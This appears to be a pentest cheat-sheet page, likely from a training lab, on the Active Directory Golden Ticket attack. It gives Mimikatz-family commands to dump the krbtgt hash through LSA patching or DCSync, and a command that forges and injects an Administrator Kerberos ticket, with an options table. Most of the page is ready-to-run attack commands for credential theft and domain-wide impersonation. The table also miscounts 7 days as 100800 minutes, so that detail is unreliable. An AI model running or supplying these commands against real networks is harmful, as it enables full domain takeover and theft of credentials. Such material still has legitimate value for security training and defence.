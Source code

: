 # Golden Ticket

Golden ticket is signed and encrypted by the hash of krbtgt account which makes it a valid TGT ticket.

Using Golden ticket can be used to impersonate any user with any privileges.



## Obtain krbtgt hash

There are multiple ways to get the krbtgt account hash

```powershell
# Execute on DC as Domain Admin
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc

# DCSync to get AES keys
# Needs Domain admin or Replication Rights
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync/user:dcorp\krbtgt" "exit"
```

## Create The Ticket

{% code overflow="wrap" %}
```powershell
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:<domain> /sid:<sid> /aes256:<aes_key> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```
{% endcode %}

<table><thead><tr><th width="318">Options</th><th width="431"></th></tr></thead><tbody><tr><td>kerberos::golden</td><td>Name of the module</td></tr><tr><td>/User:Administrator</td><td>Username for which the TGT is generated</td></tr><tr><td>/domain:</td><td>Domain FQDN</td></tr><tr><td>/sid:</td><td>SID of the domain</td></tr><tr><td>/aes256:</td><td>AES256 keys of the krbtgt account</td></tr><tr><td>/id:500 /groups:512</td><td>Optional User and Group RID</td></tr><tr><td>/ptt or /ticket</td><td>ptt: inject ticket to current process<br>ticket: saves ticket to a file</td></tr><tr><td>/startoffset:0</td><td>Optional when the ticket is available in minutes. <br>Use negative for a ticket available from past and a larger number for future.</td></tr><tr><td>/endin:600</td><td>Optional ticket lifetime in minutes.  (default <strong>10</strong> years)<br>The default AD setting is 10 hours = 600 minutes</td></tr><tr><td>/renewmax:10080</td><td>Optional ticket lifetime with renewal in minutes. (default is <strong>10</strong> years)<br>The default AD setting is 7 days = 100800</td></tr></tbody></table>


